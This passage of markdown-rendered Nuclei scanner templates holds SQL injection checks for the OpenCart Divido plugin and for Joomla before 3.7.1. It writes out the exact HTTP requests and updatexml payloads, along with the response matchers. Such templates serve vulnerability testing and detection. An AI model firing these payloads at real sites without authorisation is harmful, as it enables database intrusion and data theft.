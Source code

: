 **Type - word**
- part - body
- words
    1. nuclei-template

---
# Opencart Divido - Sql Injection
## Description
- OpenCart Divido plugin is susceptible to SQL injection

- severity - high
- tags - cve,cve2018,opencart,sqli
## Requests
### Step - 1
```
POST /upload/index.php?route=extension/payment/divido/update HTTP/1.1
Host: {{Hostname}}

{"metadata":{"order_id":"1 and updatexml(1,concat(0x7e,(SELECT md5({{num}})),0x7e),1)"},"status":2}

```
### Matchers

**Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# Joomla! <3.7.1 - SQL Injection
## Description
- Joomla! before 3.7.1 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2017,joomla,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,md5({{num}})),1)
### Matchers
